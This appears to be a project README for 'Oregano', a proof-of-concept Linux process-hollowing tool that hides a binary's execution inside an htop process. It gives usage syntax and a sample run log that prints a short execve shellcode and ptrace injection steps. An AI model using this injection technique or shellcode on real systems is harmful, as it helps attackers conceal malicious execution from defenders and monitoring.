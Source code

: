 # Oregano

PoC Linux process injection (process hollowing) to hide execution
of Linux binary in an `htop` process.

## Usage

```
OPTIONS: ./oregano [PID/PATH] [EXECUTABLE]
```

The first argument defines the `tracee` either by PID or program to
execute, and the second argument defines what you would like to be
executed _by_ the shellcode. I will add support for `.bin` files to be
supplied for shellcode in the future, but feel free to send a
PR if you want to do it, which brings me to

## Contributing

Do so. Or don't. Up to you. You will get special thanks and stuff if you do.

### Note

It doesn't work _perfectly_. Sometimes, the _tracee_ segfaults or does
something like this:

```

 .ei88ie.
.fE'  'Gf
i8      8i
D8      8L
D8.    .8I
:GL    j8'
 't8jj9t'reg@n0
 --------------
 : Author: Roan Rothrock
 : <roan.rothrock@hotmail.com>
[-] Child PID: 14393
[-] Attached to process 14393. Preparing shellcode.
[+] Shellcode size: 67
[+] Shellcode: 
0x48 0x31 0xc0 0x48 0x31 0xff 0x48 0x31 0xf6 0x48 
0x31 0xd2 0x48 0x8d 0x3d 0x37 0x10 0x10 0x10 0x48 
0x81 0xef 0x10 0x10 0x10 0x10 0x48 0x8d 0x35 0x29 
0x10 0x10 0x10 0x48 0x81 0xee 0x10 0x10 0x10 0x10 
0x56 0x48 0x89 0xe6 0xb0 0x3b 0x0f 0x05 0x48 0x31 
0xc0 0xb0 0x3c 0x48 0x31 0xff 0x0f 0x05 0x2f 0x62 
0x69 0x6e 0x2f 0x68 0x74 0x6f 0x70 
[+] Instruction pointer (RIP/EIP): 0x7fc68c4da196
[-] Injecting shellcode...
[-] Shellcode injected. Restarting process.
[-] Child exited. Exiting...
[roanr@manjaro oregano]$ Error: unsupported non-option ARGV-elements: A�ą���
```

So, it's not exactly safe (nor do I think it will ever truly be) but it works _most_ of the time.

# As I'm sure you know...

THIS PROGRAM COMES WITH ABSOLUTELY NO WARRANTY TO THE EXTENT ALLOWED BY 
APPLICABLE STATE AND FEDERAL LAW, etc.
---

See the MIT license for more details. Basically if you're a dumbass I'm
not affected (thank God.)
